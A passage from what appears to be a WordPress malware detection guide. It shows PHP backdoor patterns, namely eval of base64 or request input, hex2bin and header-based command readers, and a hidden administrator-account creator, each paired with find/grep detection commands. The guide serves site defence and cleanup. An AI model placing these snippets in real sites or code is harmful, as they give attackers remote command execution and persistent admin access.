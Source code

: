 **Expected:** All should be "No such file or directory"

#### 3. PHP Backdoor Code Patterns

**Obfuscated hex2bin Backdoor:**
```php
if(isset($_POST["symbol"])):
    $_0=hEX2BiN($_POST["symbol"]);
    // XOR obfuscation and execution
```

**Detection:**
```bash
find wp-content -name "*.php" -exec grep -l "hex2bin.*POST" {} \;
```

**eval + base64 Backdoor:**
```php
eval(base64_decode($_POST['data']));
eval($_REQUEST['cmd']);
```

**Detection:**
```bash
find wp-content -name "*.php" -exec grep -l "eval(base64_decode" {} \;
find wp-content -name "*.php" -exec grep -l "eval(\$_REQUEST" {} \;
```

**getallheaders Backdoor:**
```php
$_HEADERS = getallheaders();
$cmd = hex2bin($_HEADERS['Large-Allocation']);
```

**Detection:**
```bash
find wp-content -name "*.php" -exec grep -l "getallheaders()" {} \;
```

#### 4. WordPress User Creation Backdoor (🆕 Oct 29, 2025)

**⚠️ CRITICAL:** This backdoor uses LEGITIMATE WordPress functions, making it extremely hard to detect!

**Backdoor Pattern:**
```php
// Hidden Admin User Creation
$args = array(
    'user_login' => 'root',
    'user_pass' => '<long_random_string>',
    'role' => 'administrator',
    'user_email' => 'admin@wordpress.com'
);

if (!username_exists($args['user_login'])) {
    $id = wp_insert_user($args);
    update_option('_pre_user_id', $id);
}
```

